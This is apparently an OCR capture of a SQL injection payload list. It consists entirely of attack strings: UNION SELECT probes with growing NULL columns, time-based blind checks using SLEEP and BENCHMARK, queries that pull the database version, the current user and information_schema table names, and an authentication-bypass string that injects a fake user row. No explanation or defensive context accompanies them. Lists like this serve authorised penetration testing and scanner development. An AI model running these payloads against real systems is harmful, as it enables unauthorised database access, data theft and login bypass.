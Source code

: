 ```
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--	
'''''''''''''UNION SELECT '2
' UNION SELECT sum(columnname ) from tablename --
' UNION select table_schema,table_name FROM information_Schema.tables;#
' UNION SELECT @@version--
UNION SELECT @@VERSION,SLEEP(5),"'3
UNION SELECT @@VERSION,SLEEP(5),"'3'"#
UNION SELECT @@VERSION,SLEEP(5),3
UNION SELECT @@VERSION,SLEEP(5),USER(),4
UNION SELECT @@VERSION,SLEEP(5),USER(),4#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
```